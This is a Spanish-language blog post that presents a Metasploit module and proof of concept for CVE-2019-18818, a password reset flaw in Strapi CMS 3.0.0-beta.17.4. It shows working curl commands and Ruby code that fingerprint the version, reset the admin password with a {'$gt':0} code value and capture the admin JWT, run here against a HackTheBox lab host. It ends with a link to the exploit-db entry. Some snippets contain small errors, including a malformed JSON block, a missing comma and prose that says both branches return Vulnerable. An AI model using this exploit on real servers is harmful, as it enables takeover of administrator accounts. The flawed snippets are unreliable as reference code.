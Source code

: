 ```yaml
---
title: "CVE-2019-18818 (Metasploit) + POC"
layout: single
excerpt: "Strapi CMS versión 3.0.0-beta.17.4 maneja mal el restablecimiento de contraseña y esto permite a un atacante hacerse con el control de una cuenta privilegiada, de manera que he desarrollado un módulo de exploit en Metasploit y enseño de manera práctica como explotar dicha vulnerabilidad."
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/153302563-a3a8e679-3b9b-447e-b714-8d76e91cbd0a.png"
  teaser_home_page: true
  icon:
categories:
  - Vulnearabilities
tags:
  - CVE
  - Set Password
  - Metasploit
---
```


<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/153302563-a3a8e679-3b9b-447e-b714-8d76e91cbd0a.png">
</p>

Hace relativamente poco comencé en la creación de módulos auxiliares y exploits para *Metasploit Framework* y me gustaría compartir mi experiencia en mi primer módulo auxiliar del CVE-2019-18818.

Antes de comenzar a explicar de que se compone el módulo, un breve resumen sobre que es *CVE-2019-18818*. Esta vulnerabilidad fue publicada en la [*NATIONAL VULNERABILITY DATABASE*](https://nvd.nist.gov/vuln/detail/CVE-2019-18818) (NVD) el 11 de julio de 2019, dicha falla maneja mal el restablecimiento de la contraseña en `packages/strapi-admin/controllers/Auth.js` y `packages/strapi-plugin-users-permissions/controllers/Auth.js` en Strapi 3.0.0-beta.17.4, por ende esto permite cambiar la contraseña de un usuario privilegiado y asimismo garantizar el acceso no autorizado al CMS, de ahi que fue catalogada como CRÍTICA por su gravedad y fácil explotación.

Por si no fuera poco, tiempo después, el 5 de diciembre de 2019 fue encontrado el CVE-2019-19609 en Strapi 3.0.0-beta.17.8, a diferencia del CVE-2019-18818, esta permitía la ejecución de código arbitrario por un usuario autenticado. 

A todo esto, usar la beta de Strapi CMS en versiones desactualizadas da oportunidad a un atacante a comprometerte. 

Ahora bien, como se explota?, pues bien, es muy fácil, enviaremos datos JSON al servidor a una ruta específica del CMS y ganaremos acceso como un usuario legítimo volcando un JSON Web Token.

Primeramente, es verificar si la versión que se está empleando en Strapi es vulnerable, es decir anteriores a la 3.0.0-beta.17.5, por ello podemos enviar datos JSON mediante una petición GET al servidor en '/admin/init' especificando a la cabecera `Content-Type` que estamos enviando datos en JSON, esto lo podemos hacer de la siguiente manera con `curl`.

```bash
┌──(root💀kali)-[/home/kali]
└─$ curl -X GET http://api-prod.horizontall.htb/admin/init -H 'Content-type: application/json' -s | jq                        
{                                                                                                                             
  "data": {                                                                                                                   
    "uuid": "a55da3bd-9693-4a08-9279-f9df57fd1817",                                                                           
    "currentEnvironment": "development",                                                                                      
    "autoReload": false,                                                                                                      
    "strapiVersion": "3.0.0-beta.17.4"                                                                                        
  }                                                                                                                           
} 
```
En el módulo auxiliar de Metasploit, implemente esta funcionalidad en la función `check`.

```ruby
def check
    res = send_request_raw({ 'uri' => '/admin/init' })
    version = JSON.parse(res.body) 

    if version["data"]["strapiVersion"] == '3.0.0-beta.17.4'
      return Exploit::CheckCode::Vulnerable
    else
      return Exploit::CheckCode::Safe
    end    
end
```

Hago uso de `send_request_raw` para enviar una petición GET, seguidamente parseo la data en JSON de la respuesta del servidor con `JSON.parse` y la guardo en la variable `version`, defino una condición, `if version["data"]["strapiVersion"] == '3.0.0-beta.17.4'`, extraigo strapiVersion de la variable versión que contiene la versión y hace una comparacion, si strapiVersion es igual a '3.0.0-beta.17.4', entonces el servidor es vulnerable, por lo cual devuelvo `return Exploit::CheckCode::Vulnerable`, de lo contrario retorno `return Exploit::CheckCode::Vulnerable`.

Hasta ahora esto ha sido para verificar que el servidor sea vulnerable, ahora vayamos con la explotación de la vulnerabilidad.

Enviaremos una petición POST a `/admin/auth/reset-password` y especificaremos los siguientes datos en JSON:

```json                                                                                           
{
  "code": {"$gt:0"}, # Bypass WAF
  "password": "Newpass123", # Nueva contraseña
  "passwordConfirmation": "Newpass123" # Confirmacion nueva contraseña
}
```
Lo podemos hacer con `curl` de esta manera:

```bash
┌──(root💀kali)-[/home/kali]
└─# curl -X POST -H 'Content-type: application/json' http://api-prod.horizontall.htb/admin/auth/reset-password -d '{"code": {"$gt":0},"password":"pas","passwordConfirmation":"pas"}' -s | jq
{
  "jwt": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQ0NDQ0MjI0LCJleHAiOjE2NDcwMzYyMjR9.il6oFUjKXH7ke_uOVqM99quXU9qOyfKKY30ihgG21I4",                                                                                   
  "user": {
    "id": 3,
    "username": "admin",
    "email": "admin@horizontall.htb",
    "blocked": null
  }
}
```
> La respuesta nos muestra un JWT valido del usuario admin que puede ser usado mas tarde.

Este seria el codigo en el modulo de Metasploit.

```ruby
def run
    json_body = { 'code' => {'$gt' => 0},
      'password' => datastore['NEW_PASSWORD'],
      'passwordConfirmation' => datastore['NEW_PASSWORD'] }

    res = send_request_cgi({
      'method' => 'POST',
      'uri' => '/admin/auth/reset-password',
      'ctype' => 'application/json',
      'data' => JSON.generate(json_body)
    })

    print_status("Changing password...")
    json_format = JSON.parse(res.body)
    jwt = json_format['jwt']

    if res.code == 200
      print_good("Password changed successfully!")
      print_good("USER: admin")
      print_good("PASSWORD: #{datastore['NEW_PASSWORD']}")
      print_good("JWT: #{jwt}")
    else
      fail_with(Failure::NoAccess"Could not change admin user password")
    end
  end
```

Comienzo definiendo mi data JSON en formato Ruby concatenando los datos del usuario, la guardo en la variable `json_body` y envió una petición POST usando `send_request_cgi`, genero mi data JSON válida con `JSON.generate(json_body)` en la peticion, guardo la petición en la variable `res` y parseo la data de esta con `JSON.parse(res.body)`, la almaceno en `json_format` y después guardo el parámetro JWT que contiene el JSON Web Token del usuario admin en la variable `jwt = json_format['jwt']` y hago una comparación, `if res.code == 200`, es decir si la respuesta del código de estado de lado del servidor es 200 OK, quiere decir que la contraseña se cambió con éxito y te muestra la contraseña, el usuario y el JWT nuevos del usuario admin, de lo contrario muestro *Could not change admin user password*.

# POC
## Instalacion del exploit: https://www.exploit-db.com/exploits/50716

<p align="center">
<script id="asciicast-EXk92PvUUB0M1xZDXmTdyZV1v" src="https://asciinema.org/a/EXk92PvUUB0M1xZDXmTdyZV1v.js" async></script>
</p>

